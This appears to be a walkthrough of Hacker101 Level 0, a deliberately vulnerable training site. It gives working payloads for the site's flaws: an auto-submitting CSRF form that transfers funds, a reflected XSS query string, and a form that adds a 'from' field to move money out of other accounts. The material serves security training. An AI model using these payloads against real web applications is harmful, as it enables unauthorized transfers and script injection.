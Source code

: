 # [Hacker101 Level 0](https://levels-a.hacker101.com/levels/0/)

There are some hints in the page source.

## 1 General

Try to send negative amount, it shows an error but you also get a link to a [sample bug report](https://levels-a.hacker101.com/static/report0.txt).

## 2 CSRF

From the report we can see that the target doesn't have any CSRF protection, therefore we can send requests from other resources.

For example:

```html
<body onload="document.forms[0].submit()">
	<form action="http://h101levels.appspot.com/levels/0/" method="POST">
		<input type="hidden" name="amount" value="1000000">
		<input type="hidden" name="to" value="1625">
	</form>
</body>
```

## 3 Reflected XSS 

The amount input tag is vulnerable to XSS.  
You can add it to the querystring and inject XSS.  

For example:
```
https://levels-a.hacker101.com/levels/0/?to=1258&amount=1"onmouseover="alert('XSS')
```

## 4 Authorization Bypass/Direct Object Reference

You can transfer funds from any account to yours.

For example:

```html
<form action="/levels/0/" method="POST">
    <h2>Transfer Funds</h2>
    Destination account: <input type="input" name="to" value="1258"><br>
    Amount: <input type="input" name="amount" value="1000000">
    <br>
    From: <input type="input" name="from" value="">
    <br>
    <br>
    <input type="submit" value="Transfer">
</form>
```